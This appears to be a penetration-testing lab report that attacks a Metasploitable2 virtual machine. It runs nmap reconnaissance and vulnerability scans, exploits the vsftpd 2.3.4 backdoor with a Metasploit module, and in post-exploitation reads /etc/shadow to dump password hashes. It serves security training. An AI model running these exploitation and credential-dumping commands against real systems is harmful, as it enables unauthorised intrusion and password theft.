# Penetration Testing Report with screenshots.

- metasploitable-ip = 192.168.228.129




## Phase 1: Reconnaissance (Recon)

### 1. Passive Recon :

- In Kali browser, searched for "metasploitable2 vulnerabilities"


### 2. Active Recon :

- In Kali Terminal: ```nmap -sn 192.168.228.129/24```



## Phase 2: Scanning

### 1. Port Scanning :
- Kali Terminal: ```sudo nmap -sS -O -sV 192.168.228.129``` (SYN scan, OS/version detection).


### 2. Vulnerability Scanning :
- ```sudo nmap --script vuln <metasploitable-ip>```. Output flags vulns.







## Phase 3: Exploitation
Exploiting a known vuln in Metasploitable2 with Metasploit (e.g., vsftpd backdoor).

### 1. Start Metasploit :
- Kali Terminal: ```sudo msfconsole```


### 2. Search for Exploit :
- In msfconsole: ```search vsftpd```

- Type ```use exploit/unix/ftp/vsftpd_234_backdoor```


### 3. Set Options :
- Set target: ```set RHOSTS 192.168.228.129```
```show options```


### 4. Exploit :
- ```exploit``` or ```run```


## Phase 4 : Post-Exploitation
- Type ```id``` , ```whoami``` , ```uname -a``` . 

- In shell, ```cat /etc/shadow``` (dumps hashes).

- ```ctrl+z``` , type ```y``` then ```sessions -l```  and ```sessions -u 1``` .
